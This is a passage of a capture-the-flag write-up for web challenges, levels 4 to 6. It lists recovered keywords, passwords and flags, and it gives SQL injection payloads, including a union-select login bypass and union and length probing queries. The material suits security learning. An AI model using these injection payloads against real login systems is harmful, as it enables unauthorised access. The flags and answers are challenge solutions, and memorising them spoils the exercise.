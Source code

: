 Thus the first letter of the keyword is 'k'

c. Perform similarly to find the other words either using python program or any tool such as burp suite.

```bash
keyword: killstickswithbr1cks!
password: this_hack_it's_old
flag: e8bcb79c389f5e295bac81fda9fd7cfa
```

## Level 5: Advanced by pass

1. Hypothesize the sql query: starting hypothesis is as:

```bash
select * from ? where username='$username' and password='md5($password)'
```

2. Perform the sql injection query as:

```bash
username: ' union select 'anythin', 'md5(a)
password: a
```

3. The hypothesis is update as:

```bash
select * from ? where username = '' union select 'anythin','md5(a)' and password = 'md5(a)'
```

```bash
flag: ca5c3c4f0bc85af1392aef35fc1d09b3
password: the_stone_is_cold
```

## Level 6: Sql Injection

1. Starting hypothesis is

```bash
select username, email from level6_users where user=$user;
```

Hint: are there only two fields

2. Injection:

```python
union select 1,1,1,1,username from level6_users where status=1
#there are columns being returned
union select 1,1,1,1,username from level6_users where status=1 and length(username)=5--
#somethings are disabled
#blind cannot be performed 
```

If we check the error then we get two error thus we can conclude that the sql injection is second order and thus we need to inject sql inside another sql
